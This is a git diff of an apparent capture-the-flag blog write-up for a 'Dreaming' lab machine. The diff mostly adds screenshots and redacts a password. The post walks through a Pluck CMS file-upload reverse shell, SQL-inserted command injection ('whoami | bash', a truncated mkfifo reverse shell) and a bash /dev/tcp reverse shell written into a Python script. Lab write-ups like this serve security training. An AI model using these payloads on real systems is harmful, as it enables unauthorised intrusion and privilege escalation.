

dreamming room

Changed region(s): [[0.0, 0.0, 1.0, 1.0]]

diff --git a/_posts/2026-07-28-dreamming.md b/_posts/2026-07-28-dreamming.md
@@ -56,10 +56,16 @@ gobuster dir -u http://10.49.188.89 -w /usr/share/seclists/Discovery/Web-Content
  
  ![Nmap](/assets/images/writeups/dreaming/dreaming2.png)
  
-since we have no other choice, let's try some common passwords, and shortly after we get the right one which is `password`
+since we have no other choice, let's try some common passwords, and shortly after we get the right one which is `pa <REDACTED> rd`
 
 now i was in the administration dashboard, after searching i came to findout that this CMS version has vulnerabilities, and i found one, it's vulnerable to `File Upload Remote Code Execution` and i see the exploit from ExploitDB.
-
+ 
+ ![Nmap](/assets/images/writeups/dreaming/dreaming3.png)
+ 
+ ![Nmap](/assets/images/writeups/dreaming/dreaming4.webp)
+ 
+ ![Nmap](/assets/images/writeups/dreaming/dreaming5.webp)
+ 
 after checking that python exploit, we find that it's uploading a `.phar` file (which is one of many other php extensions) that contains a web shell, since we know the way let's do that manually.
 
 ---
@@ -68,29 +74,36 @@ after checking that python exploit, we find that it's uploading a `.phar` file (
 **http://<target-ip>/app/pluck-4.7.13/admin.php?action=files**
 here in this url i uploaded php reverse shell `reverse_shell.phar` and started the listener after files gets called i got the reverse connection.
 
-
+ ![Nmap](/assets/images/writeups/dreaming/dreaming7.png)
+ 
 ---
 
 ## Lateral Movement :
 
 **lucien**
 
+ ![Nmap](/assets/images/writeups/dreaming/dreaming8.png)
+ 
 ```bash
-cat /etc/passwd |grep 'bash'
+cat /etc/passwd | grep 'bash'
 ```
-after some enumeration, i find interesting 3users and the file `/opt` :
+after some enumeration, i find interesting 3 users and the file `/opt` :
 
 ```bash
 cat test.py
 ```
 checking those files i find a password in `test.py` of user lucien. 
 
+ ![Nmap](/assets/images/writeups/dreaming/dreaming9.png)
+ 
 **death**
 
 ```bash
 sudo -l
 ```
 again enumerating to for user death, i see that we i can run `/usr/bin/python3 /home/death/getDreams.py` as the user.
+
+![Nmap](/assets/images/writeups/dreaming/dreaming10.png)
 
 ```bash
 cat /home/death/getDreams.py
@@ -104,11 +117,14 @@ I did however, run `ls -lah` and found a `.bash_history` as well as a `.mysql_hi
 ```mysql
 insert into dreams (dreamer, dream) values (‘whoami | bash’, ‘-l’);
 ```
+![Nmap](/assets/images/writeups/dreaming/dreaming11.png)
 
 ```bash
 sudo -u death /usr/bin/python3 /home/death/getDreams.py
 ```
 i see that the test payload command was executed, that's the same concept i want to apply to get command execution as death.
+
+![Nmap](/assets/images/writeups/dreaming/dreaming12.png)
 
 now let's add another dream (nightmare) in the table in form of `$(reverse shell)` :
 
@@ -124,6 +140,8 @@ mysql> INSERT INTO dreams (dreamer, dream) VALUES ('Nightmare', '$(rm /tmp/f;mkf
 sudo -u death /usr/bin/python3 /home/death/getDreams.py
 ```
 and i got a shell as `death`, one user left, `morpheus`.
+
+![Nmap](/assets/images/writeups/dreaming/dreaming14.png)
 
 **morpheus**
 
@@ -149,6 +167,8 @@ echo "import os;os.system(\"bash -c 'bash -i >& /dev/tcp/<target-ip>/4444 0>&1'\
 ```
 after waiting for a while, i got the reverse-connection and got the 3rd flag too.
 
+![Nmap](/assets/images/writeups/dreaming/dreaming15.png)
+
 ---
 
 ## Flow
@@ -171,6 +191,6 @@ after waiting for a while, i got the reverse-connection and got the 3rd flag too
 	Each step built on the last, and it was a great exercise in real-world exploitation chains.
 
 ---
-🖼 **Find all screenshots here:** [`screenshots/dreamming/`](../screenshots/dreamming/)
+🖼 **All process screenshot** ![all_process_screenshort](/assets/images/writeups/dreaming/all_process.png)
 
 *Thanks for reading!*
